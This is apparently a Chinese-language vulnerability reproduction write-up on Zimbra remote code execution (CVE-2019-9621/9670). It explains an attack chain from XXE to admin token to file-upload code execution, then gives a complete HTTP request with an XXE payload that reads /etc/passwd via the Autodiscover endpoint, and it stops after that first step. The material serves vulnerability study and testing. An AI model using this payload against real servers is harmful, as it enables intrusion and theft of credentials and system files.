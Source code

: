 （CVE-2019-9621）（CVE-2019-9670）Zimbra 远程代码执行漏洞
=========================================================

一、漏洞简介
------------

当 Zimbra
存在像任意文件读取、XXE（xml外部实体注入）这种漏洞时，攻击者可以利用此漏洞读取
localconfig.xml配置文件，获取到 zimbra admin ldap password，并通过 7071
admin 端口进行 SOAP AuthRequest 认证，得到 admin
authtoken漏洞是利用XXE和ProxyServlet SSRF 漏洞拿到 admin authtoken
后，通过文件上传在服务端执行任意代码，威胁程度极高。当Zimbra服务端打来Memcached缓存服务是，可以利用SSRF攻击进行反序列化执行远程代码。不过由于Zimbra在单服务器安装中尽管Memcached虽然启动但是并没有进行使用，所以其攻击场景受到限制。

二、漏洞影响
------------

ZimbraCollaboration Server 8.8.11 之前的版本都受到影响。具体来说：

-   Zimbra \< 8.7.11
    版本中，攻击者可以在无需登录的情况下，实现远程代码执行。
-   Zimbra \< 8.8.11 版本中，在服务端使用 Memcached
    做缓存的情况下，经过登录认证后的攻击者可以实现远程代码执行。

三、复现过程
------------

### 第一步：检测是否存在xxe漏洞

    POST /Autodiscover/Autodiscover.xml HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 436  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
     <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
        <Request>
          <EMailAddress>aaaaa</EMailAddress>
          <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
        </Request>
      </Autodiscover>
